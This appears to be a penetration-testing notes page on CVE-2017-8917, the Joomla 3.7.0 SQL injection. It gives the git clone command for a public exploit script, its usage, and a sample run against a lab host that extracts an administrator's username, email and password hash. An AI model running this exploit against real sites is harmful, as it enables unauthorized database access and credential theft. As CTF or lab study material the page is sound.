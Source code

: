 ```yaml
---
title : "CVE-2017-8917"
# pre : ' '
description : "SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah."
date : 2021-06-18T19:30:01+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2017-8917 - SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah

## Installation

{{%attachments fa_icon_class="far fa-file-code" pattern=".*(py)"/%}}

```plain
git clone https://github.com/stefanlucas/Exploit-Joomla.git
```

## Usage

```plain
joomblah.py [-h] url
```

## Flags

```plain
Jooma Exploit

positional arguments:
  url         Base URL for Joomla site

optional arguments:
  -h, --help  show this help message and exit
```

## Examples

```plain
$ python joomblah.py http://10.10.181.117/
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

## URL List

* [Github.com - Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla)
